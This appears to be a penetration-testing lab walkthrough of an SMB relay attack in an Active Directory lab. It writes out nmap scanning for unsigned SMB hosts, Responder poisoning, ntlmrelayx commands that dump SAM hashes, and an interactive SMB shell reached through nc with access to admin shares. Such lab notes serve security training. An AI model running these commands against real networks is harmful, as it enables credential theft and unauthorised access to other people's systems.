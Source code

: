 
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)

**SAM hashes have been dumped**
![Local-SAM-hashes-have-been-dumped](https://dimitrios-tsarouchas.tech/assets/img/Local-SAM-hashes-have-been-dumped.png)_Local SAM hashes have been dumped_

The authentication succeeded because SMB signing is enabled but not required and because “dtsarouchas” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.

***

Same as we did in the previous section, we can simply get an interactive SMB shell by just adding a flag to ntlmrelayx command

```shell
$ ntlmrelayx.py -tf targets -smb2support -i
```

`-i` will give the interactive shell. After running the command, you will see an output like below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/6-2-1024x407.png)

It has successfully exploited and started interactive SMB client shell via TCP on the specified port.

To access the shell, you can simply use `nc` to connect to the host and port using the following command

```
nc 127.0.0.1 11000
```

This will give you the SMB shell as below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/7-2.png)

From here, you can interact using the shell and access the files and folders., for example to see the content of these shares we can say

```shell
# shares
# use C$
# use ADMIN$
# use IPC$
```

Then we can do `ls`

![](https://i.imgur.com/Q2m4kx2.png)

